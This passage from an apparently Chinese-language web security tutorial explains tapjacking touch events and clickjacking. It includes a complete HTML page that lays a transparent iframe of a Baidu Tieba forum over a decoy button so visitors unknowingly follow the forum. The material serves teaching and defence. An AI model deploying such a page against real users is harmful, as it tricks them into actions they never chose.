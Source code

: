 ### 2.4 触屏劫持（TapJacking）

触屏，从手机OS的角度来看，触屏实际上就是一个事件，手机OS捕捉这些事件，并执行相应的动作。

一次触屏操作，可能会对应一下几个事件的发生：

- touchstart，手指触摸屏幕时发生；
- Touchend，手指离开屏幕时发生；
- Touchmove，手指滑动时发生；
- Touchcancel，系统可取消touch事件

## 3. 攻击示例

点击劫持（ClickJacking）是一种视觉上的欺骗手段。大概有两种方式，一是攻击者使用一个透明的iframe，覆盖在一个网页上，然后诱使用户在该页面上进行操作，此时用户将在不知情的情况下点击透明的iframe页面；二是攻击者使用一张图片覆盖在网页，遮挡网页原有位置的含义。

![image-20220707220322111](https://zszblog.oss-cn-beijing.aliyuncs.com/zszblog/image-20220707220322111.png)

### 3.1 iframe覆盖（嵌入iframe框）

> 以下是网上的一个例子，忽略其真实性和意义，只是辅助你理解其思路

假如我们在百度有个贴吧，想偷偷让别人关注它。于是我们准备一个页面：

```html
<!DOCTYPE HTML>
<html>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312" />
    <head>
    <title>点击劫持</title>
    <style>
        html,body,iframe{
            display: block;
            height: 100%;
            width: 100%;
            margin: 0;
            padding: 0;
            border:none;
        }
        iframe{
            opacity:0;
            filter:alpha(opacity=0);
            position:absolute;
            z-index:2;
        }
        button{
            position:absolute;
            top: 315px;
            left: 462px;
            z-index: 1;
            width: 72px;
            height: 26px;
        }
    </style>
    </head>
    <body>
        那些不能说的秘密
        <button>查看详情</button>
        <iframe src="http://tieba.baidu.com/f?kw=%C3%C0%C5%AE"></iframe>
    </body>
</html>

```
